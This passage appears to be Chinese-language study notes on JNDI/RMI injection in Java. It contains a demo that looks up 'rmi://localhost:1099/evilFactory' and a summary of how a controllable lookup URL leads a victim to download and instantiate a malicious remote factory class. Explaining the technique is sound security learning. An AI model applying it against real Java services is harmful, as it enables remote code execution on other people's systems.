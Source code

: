 ```java
public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        Hashtable<String,Object> env = new Hashtable<>();
        Context ctx = new InitialContext();
        ctx.lookup("rmi://localhost:1099/evilFactory");
    }
}

```  
恶意Factory的静态代码,构造方法,getObjectInstance()都被触发.
![](img/2023-02-20-18-15-02.png)  

总结RMI利用流程:
1. 被攻击端lookup()URL可控,因为动态转换,访问恶意的RMI服务.
2. RMI服务返回包含指向如何构建远程对象的Factory工厂类的远程地址Reference引用.  
3. 被攻击端根据该引用下载该Factory工厂类,调用其`getObjectInstance()`方法创建远程对象,在实例化Factory工厂类和`getObjectInstance()`方法时触发恶意代码.  
